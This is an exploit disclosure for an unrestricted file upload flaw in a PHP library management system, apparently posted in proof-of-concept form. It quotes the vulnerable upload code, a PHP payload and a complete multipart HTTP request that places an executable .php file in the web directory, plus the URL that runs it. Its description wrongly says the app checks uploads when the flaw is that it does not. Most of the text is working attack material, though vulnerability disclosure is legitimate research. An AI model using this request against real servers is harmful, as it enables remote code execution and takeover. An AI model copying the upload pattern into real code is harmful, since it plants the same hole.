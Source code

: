 #### Title: Library Management System with QR code Attendance 1.0 File Upload RCE
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 27.06.2022
#### Vendor: https://www.sourcecodester.com/users/kingbhob02
#### Software: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/File_Upload/POC.md
#### Description：
#### At the file upload function, the application system checks the validity of the file type, format, and content uploaded by the user, so that attackers can upload Webshell (.php, .jsp, asp, etc.) malicious script files or files in unexpected formats, such as: HTML files, SHTML files, etc., at the same time, you can use characters such as directory jump or control the upload directory to directly upload files to the Web directory or any directory, which may lead to the execution of arbitrary malicious script files on the remote server, thereby directly obtaining application system permissions.

#### $uploaddir = 'assets/uploads/';
#### $uploadfile = $uploaddir . basename($_FILES['image']['name']);

#### Payload used:
`<?php phpinfo();?>`

### POC
```POST /LMS/card/index.php HTTP/1.1
Host: localhost
Content-Length: 1056
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryngJP5BxPA6UsA91O
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/LMS/card/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0r78mi76ub6k55p8mkce7f4pco
Connection: close

------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="name"

File_Upload
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="grade"

Computer Studies
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="dob"

Student
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="address"

Testing Testing
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="email"

ashish@cyberthoth.in
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="exp_date"

1990-02-11
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="id_no"

8529637
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="phone"

1212121212
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="image"; filename="File_upload.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryngJP5BxPA6UsA91O--
```

#### Access below URL:
`http://localhost/LMS/card/assets/uploads/File_upload.php`

![image](https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/File_Upload/POC.png)